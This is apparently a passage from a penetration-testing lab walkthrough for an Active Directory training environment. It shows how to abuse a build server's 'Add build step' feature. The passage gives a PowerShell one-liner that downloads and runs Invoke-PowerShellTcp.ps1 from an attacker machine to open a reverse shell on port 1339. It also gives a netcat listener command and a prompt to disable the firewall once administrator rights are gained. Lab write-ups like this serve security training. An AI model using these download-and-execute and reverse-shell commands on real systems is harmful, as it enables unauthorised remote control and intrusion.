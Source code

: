 * Configure -> Add build step (write the following command) -> `powershell iex (iwr -UseBasicParsing http://<attacker_machine>/Invoke-PowershellTcp.ps1);power -Reverse -IPAddress <attacker_machine> -Port 1339`

```powershell
powershell.exe iex (iwr http://172.16.100.67/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.67 -Port 1339
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

and save it. Meanwhile run netcat on our attacker win machine going in listening mode on port 1339:

```bash
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 1339
```

Now our student user appartains to administrators group and we can disabilitate firewall, do it!
